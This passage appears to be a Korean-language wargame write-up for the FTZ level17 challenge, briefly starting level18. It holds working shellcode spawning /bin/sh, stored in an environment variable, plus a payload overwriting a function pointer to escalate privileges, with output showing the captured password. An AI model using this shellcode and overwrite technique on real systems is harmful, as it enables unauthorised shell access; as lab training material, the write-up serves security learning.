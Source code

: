 `buf`와 함수포인터간의 간격은 0x28(40) 바이트, 함수포인터와 `crap` 변수의 간격은 4바이트다.

자 그럼 환경변수에 쉘 코드를 올리고 해당 주소를 확인한다.

```
[level17@ftz tmp]$ export shell=$(python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
```

```c++
/*getenv.c*/
#include <stdio.h>

int main()
{
    printf("SHELL : %p\n",getenv("shell"));
    return 0;
}
```

```
[level17@ftz tmp]$ ./getenv 
SHELL : 0xbffffef5
```

```
[level17@ftz level17]$ (python -c 'print "\x90"*40+"\xf5\xfe\xff\xbf"'; cat) | ./attackme 
my-pass
TERM environment variable not set.

Level18 Password is "why did you do it".

id
uid=3098(level18) gid=3097(level17) groups=3097(level17)
```

위와 같이 공격에 쉽게 성공하는 것을 확인할 수 있다.

## [+] FTZ level18

### Analysis

문제를 보기 앞서 아주 좋은 포인터 예제가 있어 확인했다.

```c++
#include <stdio.h>

int main()
{
        int a=10,b=20,c=30,d=40,e=50;
        int *ptr = &c;
        printf("A=%d\nB=%d\nC=%d\nD=%d\nE=%d\n",*(ptr+2),*(ptr+1),*ptr,*(ptr-1),*(ptr-2));
        return 0;
}
```
